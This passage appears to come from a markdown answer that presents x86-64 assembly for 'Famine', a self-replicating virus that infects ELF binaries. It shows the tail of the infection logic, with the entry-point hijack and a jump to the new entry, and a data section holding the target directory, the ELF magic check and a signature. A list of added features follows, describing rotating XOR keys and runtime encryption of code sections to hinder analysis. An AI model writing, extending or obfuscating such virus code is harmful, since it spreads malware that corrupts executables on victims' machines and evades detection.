 ```assembly
    mov rax, SYS_close
    mov rdi, r12
    syscall

.just_quit:
    mov al, BYTE [rel zero]
    test al, al
    jz .exit_ret

    jmp [rel new_entry]

.exit_ret:
    ret
end_logic_end:

; Data section
buff        times 4096 db 0
newl        times 0001 db 0xa
path        db '/tmp/test/', 0
padd        times 0512 db 0
file        db 'elf64 found!', 0
msg1        db 'Famine version 1.0 (c)oded by alexafer-jdecorte', 0
old_entry   dq 0
new_entry   dq 0
self        db '/proc/self/exe', 0
last        db '..', 0
curr        db '.', 0
elfh        db 0x7f, 'ELF'
one         db 1
zero        db 0
entry       dq 0
exec        dw 7
elfb        times 0064 db 0
elfp0       times 0056 db 0
elfp1       times 0056 db 0

end_addr:
```

## Key Features Added:

### 1. **Multiple XOR Keys**
- Different encryption keys for different code sections
- Keys rotate during encryption/decryption for added complexity

### 2. **Runtime Encryption/Decryption**
- Code sections are encrypted at rest
- Decrypted only when needed for execution
- Re-encrypted immediately after execution
